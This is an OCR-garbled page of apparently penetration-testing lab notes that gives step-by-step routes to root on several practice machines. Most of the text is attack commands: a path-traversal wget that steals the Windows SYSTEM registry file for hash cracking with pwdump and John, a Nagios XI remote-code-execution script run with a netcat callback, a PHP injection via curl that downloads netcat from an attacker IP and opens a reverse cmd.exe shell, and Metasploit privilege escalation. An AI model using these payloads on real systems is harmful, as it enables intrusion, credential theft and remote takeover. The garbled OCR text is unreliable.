 1. Get the SYSTEM - wget
http://192.168.XX.161/..%5C..%5C..%5C..%5C..%5CWindows..%5CSystem32..%5Ccon
fig..%5CRegBack..%5CSYSTEM.OLD -O system.old
1. pwdump system.old sam.old and you will get the Hashes
2. Brute it with john
3. Login to RDP
4. Root shell!

```bash
Nagy (.153)
```
Operating SystemLinux
Points10
Similar Machine (Root)
Steps to Root
1. Nagios XI 5.5.6 - Remote Code Execution / Privilege Escalation -
https://www.exploit-db.com/exploits/46221
1. Run python nagios.py -t 192.168.XX.216 -ip 192.168.XX.XX -port 8081 -ncip
192.168.XX.XX -ncport 443
1. User shell!
Alternative exploit: https://github.com/jakgibb/nagiosxi-root-rce-exploit

```bash
EDBMACHINE (.218)
```
Operating SystemWindows
Points25
Similar Machine (User)
Similar Machine (Root)
Exploit in Getting User
1. Hidden directory in robots.txt
2. KikChat is vulnerable to https://www.exploit-db.com/exploits/30235
3. Confirm POC - curl -s
http://192.168.31.218/8678576453/rooms/get.php\?name\=info.php\&ROOM\="<?php+phpi
nfo()+?>"
1. allow_url_fopen and allow_url_include are On
2. Upload file to target machine and run - curl -s
http://192.168.XX.218/8678576453/rooms/get.php\?name=shell1.php\&ROOM\="<?php+file
_put_contents('nc.bat',file_get_contens('http://192.168.XX.XX/nc.txt'));system('nc.bat');usl
eep(2000000);system('nc.exe+-vn+192.168.XX.XX+1234+-cmd.exe');+?>"
1. Run listener - nc -nlvp 1234
2. User shell!
Privilege Escalation to Root
1. Use metasploit to create reverse shell in exe
2. Upload it on target machine same process as curl
3. Run execute -f C:/xampplite/htdocs/8678576453/myroom/evil.exe in metasploit
4. execute background and switch to new sessions sessions -i 2
5. Run getuid
6. Run getsystem
7. Run getuid
8. Root shell!